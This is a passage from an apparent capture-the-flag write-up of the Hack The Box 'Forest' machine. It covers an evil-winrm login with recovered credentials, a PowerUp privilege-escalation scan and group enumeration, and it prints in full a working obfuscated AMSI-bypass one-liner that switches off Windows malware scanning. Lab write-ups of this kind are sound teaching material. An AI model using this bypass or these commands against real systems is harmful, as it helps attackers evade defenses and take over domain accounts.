 ```bash
evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
```

![image.png]({{ '/assets/img/Forest/image%202.png' | relative_url }})

After connecting, navigating to the **Desktop** directory reveals the flag file. Submitting this flag completes the initial challenge.

### Local Privilege Escalation with PowerUp

To investigate potential privilege escalation paths, I uploaded **PowerUp.ps1**, a PowerShell script that helps enumerate misconfigurations and privilege escalation vectors. Executing **Invoke-AllChecks** runs a comprehensive scan:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> . .\PowerUp.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Invoke-AllChecks
```

Unfortunately, this scan does not reveal any promising privilege escalation opportunities.

### Defense Evasion with AMSI Bypass

Since we have a restricted shell and cannot disable Windows Defender directly, I ran an **AMSI bypass** script to evade AMSI detection. This bypass disables AMSI (Anti-Malware Scan Interface), which may allowed me to execute restricted scripts without interference:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

This AMSI bypass may allow additional enumeration or exploitation attempts by running previously blocked PowerShell commands.


## Domain Recon

### Enumerating User Privileges
To understand the permissions and groups of the current user, I used the whoami /all command in PowerShell. This command output reveals that svc-alfresco is a member of three significant groups:

- Account Operators - Can create, modify, and delete user accounts, manage group memberships, and reset passwords.
- Privileged IT Accounts - Likely has elevated privileges within the organization.
- Service Accounts - Used for services running on the machine.
This combination of group memberships indicates the user may have substantial access within the domain, especially with Account Operators, which can manage user accounts within the domain.
